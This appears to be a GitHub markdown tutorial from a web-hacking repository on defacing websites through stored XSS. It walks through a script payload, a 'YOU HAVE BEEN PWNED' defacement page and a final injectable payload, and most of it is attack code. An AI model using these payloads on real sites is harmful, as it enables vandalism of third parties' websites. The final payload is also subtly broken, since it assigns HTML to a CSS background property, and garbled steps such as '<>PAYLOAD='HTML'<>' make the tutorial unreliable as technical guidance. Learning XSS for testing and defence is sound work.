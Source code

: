 # XSS Defacing Attacks.
One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. Defacing a website means changing its look for anyone who visits the website.
We can utilize injected JavaScript code (through XSS) to make a web page look any way we like.

## Perfarming Defacing.
- To perform a XSS Defacing attack the first step must be to _find the appropriate payload_. eg:
```javascript
<script>document.body.style.background = "#141d2b"</script>
```
- After that we have to write the HTML document that we want to deploy into the target, eg: 
 ```html
<center>
    <h1 style="color: white">YOU HAVE BEEN PWNED</h1>
    <body style="background-color:#171717">
    <p style="color: white">
        <img src="IMGURL" height="400px">
    </p>
    <h2>XSS DEFACING</h2>
    <h3>by TBHD </h3>
</center>
```
- We will must _minify the HTML code into a single line_:
```html
<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="IMGURL" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>
```
- The last step is to _add the minified HTML code to our previous XSS payload_, switching the parametter in our payload for our html line, the pattern must be as follows: `<script>document.body.style.background='HTML'</script>` = `<>PAYLOAD='HTML'<>`.</br>
__The final payload should be as follows:__
```html
<script>document.body.style.background='<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="http://192.168.1.54/skull.jpg" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>'</script>
```
__XSS DEFACING FINAL RESULT__</br>
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/138ab5c6-9d62-4038-9c67-442ba4040264" width="450">



